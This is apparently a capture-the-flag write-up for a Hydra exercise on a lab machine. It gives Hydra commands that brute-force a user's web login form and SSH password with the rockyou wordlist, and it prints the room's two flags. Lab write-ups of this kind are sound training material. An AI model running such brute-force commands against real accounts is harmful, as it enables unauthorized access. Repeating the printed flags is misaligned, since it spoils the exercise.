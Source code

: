 # Hydra

### Using Hydra
- Use Hydra to bruteforce molly's web password. What is flag 1?<br />
The command that worked for me is `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.85.56 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect " -V`:<br />
![image](https://github.com/user-attachments/assets/ed3c8273-a6e1-4872-80e8-a06ce641f902)<br />
Now log into molly's account to get the flag: <br />
![image](https://github.com/user-attachments/assets/3e8f9f88-47cc-4ec0-a229-c3bd4d8b8bd1)<br />
LOL <br />
`THM{2673a7dd116de68e85c48ec0b1f2612e}`
- Use Hydra to bruteforce molly's SSH password. What is flag 2? <br />
The command is `ydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.85.56 ssh`<br />
![image](https://github.com/user-attachments/assets/1fa97639-c571-410e-a177-a5340bd49f70)<br />
Now log into molly's account `ssh molly@10.10.85.56`<br />
![image](https://github.com/user-attachments/assets/7ddbf963-d1e0-4a8b-bc4e-7c94235c73b1)<br />
`THM{c8eeb0468febbadea859baeb33b2541b}`


